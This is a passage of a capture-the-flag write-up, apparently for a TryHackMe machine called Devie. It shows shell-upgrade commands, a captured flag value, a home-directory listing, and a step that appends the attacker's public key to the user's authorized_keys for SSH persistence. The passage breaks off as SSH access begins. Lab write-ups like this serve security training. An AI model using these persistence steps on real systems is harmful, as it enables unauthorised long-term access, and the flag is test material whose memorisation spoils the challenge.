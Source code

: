 
First step is to get ourselves a stable shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250504143634.png](../../IMAGES/Pasted%20image%2020250504143634.png)

We can read first flag:

```
bruce@devie:~$ cat flag1.txt
THM{Car3ful_witH_3v@l}
```

In our home directory, we can find this:

```bash
bruce@devie:~$ ls -la
total 44
drwxr-xr-x 4 bruce bruce 4096 Feb 20  2023 .
drwxr-xr-x 4 root  root  4096 May 12  2022 ..
lrwxrwxrwx 1 root  root     9 May 13  2022 .bash_history -> /dev/null
-rw-r--r-- 1 bruce bruce  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 bruce bruce 3771 Feb 25  2020 .bashrc
drwx------ 2 bruce bruce 4096 May 12  2022 .cache
-rw-r--r-- 1 root  root   158 Feb 19  2023 checklist
-rw-r----- 1 root  bruce   23 May 12  2022 flag1.txt
-rw-r--r-- 1 root  root   355 Feb 20  2023 note
-rw-r--r-- 1 bruce bruce  807 Feb 25  2020 .profile
-rw-rw-r-- 1 bruce bruce   75 May 12  2022 .selected_editor
drwx------ 2 bruce bruce 4096 May 12  2022 .ssh
-rw------- 1 bruce bruce    0 May 12  2022 .viminfo
```

We can add our `id_rsa` key to `authorized_keys` and migrate to `ssh`, let's do it:

```bash
echo 'OUR_ID_RSA.PUB KEY' >> /home/bruce/.ssh/authorized_keys
```

Now, let's go into ssh:
